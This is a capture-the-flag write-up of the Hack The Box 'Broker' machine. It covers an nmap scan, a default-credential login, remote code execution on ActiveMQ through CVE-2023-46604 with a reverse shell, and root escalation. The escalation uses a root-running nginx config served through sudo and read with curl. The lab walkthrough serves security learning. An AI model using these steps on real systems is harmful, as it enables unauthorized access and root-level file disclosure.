






## MACHINE INFO

> **[Broker](https://app.hackthebox.com/machines/578)** is a a retired Linux machine containing a vulnerable Apache ActiveMQ instance is exploited for unauthenticated remote code execution, granting user access. Post-exploitation reveals a `sudo` misconfiguration allowing `activemq` to run `sudo /usr/sbin/nginx`, similar to a recent Zimbra flaw, which is used to escalate to root access.

Nmap scan of target:
```sh
┌──(p0s3id0n㉿kali)-[~/Machines/htb/broker/CVE-2023-46604]
└─$ sudo nmap -sCV -T4 10.10.11.243 -p- -vv
[sudo] password for p0s3id0n: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-29 13:16 EDT
<---snip--->
Nmap scan report for 10.10.11.243
Host is up, received echo-reply ttl 63 (0.50s latency).
Scanned at 2024-07-29 13:16:46 EDT for 1332s
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp    open  http       syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt       syn-ack ttl 63
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?      syn-ack ttl 63
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
37317/tcp open  tcpwrapped syn-ack ttl 63
61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: Jetty(9.4.39.v20210325)
| http-methods: 
|   Supported Methods: GET HEAD TRACE OPTIONS
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5672-TCP:V=7.94SVN%I=7%D=7/29%Time=66A7D37F%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x
SF:10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\
SF:x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20
SF:client\x20using\x20unsupported\x20AMQP\x20attempted")%r(HTTPOptions,89,
SF:"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\
SF:xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M
SF:\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20using
SF:\x20unsupported\x20AMQP\x20attempted")%r(RTSPRequest,89,"AMQP\x03\x01\0
SF:\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0
SF:\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amq
SF:p:decode-error\xa17Connection\x20from\x20client\x20using\x20unsupported
SF:\x20AMQP\x20attempted")%r(RPCCheck,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0
SF:\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`
SF:\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa1
SF:7Connection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attemp
SF:ted")%r(DNSVersionBindReqTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x
SF:19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0
SF:\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Conne
SF:ction\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%
SF:r(DNSStatusRequestTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\
SF:0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S
SF:\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x
SF:20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(SSLSe
SF:ssionReq,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\
SF:xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01
SF:\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20cli
SF:ent\x20using\x20unsupported\x20AMQP\x20attempted")%r(TerminalServerCook
SF:ie,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0
SF:c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1
SF:d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x2
SF:0using\x20unsupported\x20AMQP\x20attempted");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61613-TCP:V=7.94SVN%I=7%D=7/29%Time=66A7D37A%P=x86_64-pc-linux-gnu%
SF:r(HELP4STOMP,27F,"ERROR\ncontent-type:text/plain\nmessage:Unknown\x20ST
SF:OMP\x20action:\x20HELP\n\norg\.apache\.activemq\.transport\.stomp\.Prot
SF:ocolException:\x20Unknown\x20STOMP\x20action:\x20HELP\n\tat\x20org\.apa
SF:che\.activemq\.transport\.stomp\.ProtocolConverter\.onStompCommand\(Pro
SF:tocolConverter\.java:258\)\n\tat\x20org\.apache\.activemq\.transport\.s
SF:tomp\.StompTransportFilter\.onCommand\(StompTransportFilter\.java:85\)\
SF:n\tat\x20org\.apache\.activemq\.transport\.TransportSupport\.doConsume\
SF:(TransportSupport\.java:83\)\n\tat\x20org\.apache\.activemq\.transport\
SF:.tcp\.TcpTransport\.doRun\(TcpTransport\.java:233\)\n\tat\x20org\.apach
SF:e\.activemq\.transport\.tcp\.TcpTransport\.run\(TcpTransport\.java:215\
SF:)\n\tat\x20java\.lang\.Thread\.run\(Thread\.java:750\)\n\0\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61616-TCP:V=7.94SVN%I=7%D=7/29%Time=66A7D379%P=x86_64-pc-linux-gnu%
SF:r(NULL,140,"\0\0\x01<\x01ActiveMQ\0\0\0\x0c\x01\0\0\x01\*\0\0\0\x0c\0\x
SF:11TcpNoDelayEnabled\x01\x01\0\x12SizePrefixDisabled\x01\0\0\tCacheSize\
SF:x05\0\0\x04\0\0\x0cProviderName\t\0\x08ActiveMQ\0\x11StackTraceEnabled\
SF:x01\x01\0\x0fPlatformDetails\t\0\x04Java\0\x0cCacheEnabled\x01\x01\0\x1
SF:4TightEncodingEnabled\x01\x01\0\x0cMaxFrameSize\x06\0\0\0\0\x06@\0\0\0\
SF:x15MaxInactivityDuration\x06\0\0\0\0\0\0u0\0\x20MaxInactivityDurationIn
SF:italDelay\x06\0\0\0\0\0\0'\x10\0\x0fProviderVersion\t\0\x075\.15\.15");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:38
Completed NSE at 13:38, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:38
Completed NSE at 13:38, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:38
Completed NSE at 13:38, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1333.64 seconds
           Raw packets sent: 71336 (3.139MB) | Rcvd: 70494 (2.820MB)

```

### PORT 80 ENUMERATION
Prompted to login. Since the service running on port 80 is ApacheMQ server as per our nmap scan, a quick google search on it led to be default creds `admin:admin`.



And we that we are logged in and redirected to a webpage.



As per the machine info, the ApacheMQ version is supposed to be vulnerable to unauthorized RCE, so enumeration on the webpage searching for a version disclosure of the service.
Enumeration of the page led me to the admin page upon clicking on the Manage ActiveMQ broker option where we get the version of the broker is `5.15.15`


A google search on an RCE exploit of the ApacheMQ service led to the following exploit:
https://github.com/evkl1d/CVE-2023-46604

**BRIEF EXPLANATION OF THE EXPLOIT**
This payload is designed to deserialize a class path XML application context from Spring, which in turn runs a bash command to establish a reverse shell connection to the attacker's machine. This exploit allows an attacker to gain control over the affected server.

For the poc.xml file url:
- Open a python http.server at the location of the poc.xml file on attack machine
- paste the url using the following format: `http://<attack_machine_ip>:<port number of http server>/poc.xml`



**USER FLAG**
After running the script, we get a connection on our listener. Stabilize the shell and get the user flag from the home directory.


### PRIVILEGE ESCALATION
The current user can execute the following sudo commands without being prompted for a password:


From the machine info, we get a hint that the Machine replicates a recent Zimbra vulnerability.

**BRIEF EXPLANATION OF ZIMBRA VULNERABILITY**
Certain Zimbra versions allowed an attacker to run Nginx server as root without prompting a user for a password. This also let an attacker to force the Nginx server to run using a custom configuration file. For this particular exploit, the attacker forced the Nginx server to run as root and fetch files that would typically only be accessed by the root user.

More on the exploit is here: https://darrenmartynie.wordpress.com/2021/10/25/zimbra-nginx-local-root-exploit/

On our attack machine, create a configuration file and paste the following:
```sh
user root; 
events { worker_connections 1024; 
	} 
http { 
	server { 
		listen 1337;
		root /; 
		autoindex on; 
		} 
	}
```

**SCRIPT EXPLANATION**
- **user root;**: Sets the user to `root` 
- **events { worker_connections 1024; }**: Configures the maximum number of simultaneous connections per worker process.
- **http { server { ... } }**: Defines an HTTP server configuration.
- **listen 1337;**: Configures the server to listen on port `1337`.
- **root /;**: Sets the document root to the filesystem root
- **autoindex on;**: Enables automatic directory listing.

After that start a python server on the target machine and upload the configuration file to the target's /tmp directory.

Now to execute the sudo command. Typically we would run the nginx server using `sudo /usr/sbin/nginx` as per the output of the `sudo -l` command but we are going to add something to the command so that the webserver runs using our custom configuration file that will make it run with root privileges.
```sh
sudo /usr/sbin/nginx -c <path to file>
```
- `-c`: tells the web server the config file to be used

Once the command executes, we can fetch files from the web server using curl:
Typically root flags in HTB boxes are stored in the root directory hence the reason for the specified path.
```sh
curl localhost:1337/root/root.txt
```
**ROOT FLAG**


